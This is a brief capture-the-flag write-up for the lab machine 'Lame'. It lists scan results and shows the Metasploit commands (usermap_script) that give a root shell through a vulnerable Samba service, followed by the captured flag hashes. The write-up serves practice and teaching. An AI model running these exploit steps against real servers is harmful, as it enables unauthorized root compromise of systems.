

# [cd ../](../index.md)

---

# Lame writeup by M4t35Z

Name | Lame
--- | ---
IP | 10.10.10.3
Os | Linux
Points | Easy (20)

# Start
## Recon
### Nmap
[nmap_big.txt](nmap/nmap_big.txt)  
Open ports:

Port | Service | Version
:--- | :---: | ---:
21 | ftp | vsftpd 2.3.4
22 | ssh | OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139 | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445 | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3652 | distccd | distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))


## Exploitin'
Shh is usually not vulnerable but ftp and samba could be!
So just hit up [exploit-db](https://www.exploit-db.com/) and search for versions!  

### ftp
We found [this](https://www.exploit-db.com/exploits/17491) ftp exploit that could work.
We could try it but it isnt exploitable in this instance. ):

### smb
So we have to search for smb exploits!  
After some time we could find [this](https://www.exploit-db.com/exploits/16320) smb rce exploit for msf!  
Just open metasploit and use it! :D
```
msfconsole
search usermap_script
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
run
```
And we got a root shell!


# Got the root and user flag too
```
/root/root.txt
92caac3be140ef409e45721348a4e9df

/home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
```
